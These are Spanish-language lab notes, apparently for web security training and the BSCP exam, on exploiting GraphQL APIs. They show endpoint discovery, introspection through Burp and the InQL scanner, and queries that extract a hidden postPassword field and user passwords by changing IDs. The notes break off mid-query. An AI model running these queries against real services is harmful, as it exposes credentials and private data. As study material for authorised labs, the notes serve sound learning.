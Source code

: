 ```html
```

Si estos endpoints comunes no devuelven una respuesta de GraphQL, también podría intentar añadir `/v1`al camino.

<hr>

### LAB: Accessing private GraphQL posts

* Revisar y chequear siempre los resources de `JS` encontraremos info sumamente importante y necesaria para el ataque. 
* En este caso en los post del blog falta el numero `3` es el que contiene la info poderosa. 

```js
// Listo ya tengo el endpoint /graphql/v1 y en el burp ya lo tengo
// ENDPOINT RAIZ
query getBlogSummaries {
    getAllBlogPosts {
        image
        title
        summary
        id
    }
}
// >click derecho>Set Instrospection Query - Asi encontramos la info jugosa, en este caso un `postPassword`, lo añadimos a la consulta, con el ID que faltaba que era el 3. 
//si el lab no funciona así, recomiendo la extensión InQL Scanner - click Derecho > extensions > InQL GraphQL - Generate Queries with InQL scanner... 
// ENDPOINT POST POSTS -> Para retornar el Id post del que defina yo en variables-
    query getBlogPost($id: Int!) {
        getBlogPost(id: $id) {
            image
            title
            author
            date
            paragraphs
            postPassword
        }
    }
// VARIABLES ->
{
	"id":3
}
```

### LAB:  Accidental Exposure - Private/Hidden Fields GraphQL
* Algo importante a considerar durante labs misteriosos o durante el BSCP es que si encontramos dentro del DOM de la app script que llaman del tipo `gq` es muy probable que estén funcionando en pro a GraphQL consultas. 

```js
Generate queries with InQL scanner to find hidden fields, send to repeater and change variables, for example, id:!Int -> id:1 for admin

//Example: 
query {
	getUser(id:!Int) {
		id
		password
		username
	}
}
//Lo cambiamos por: 
query {
```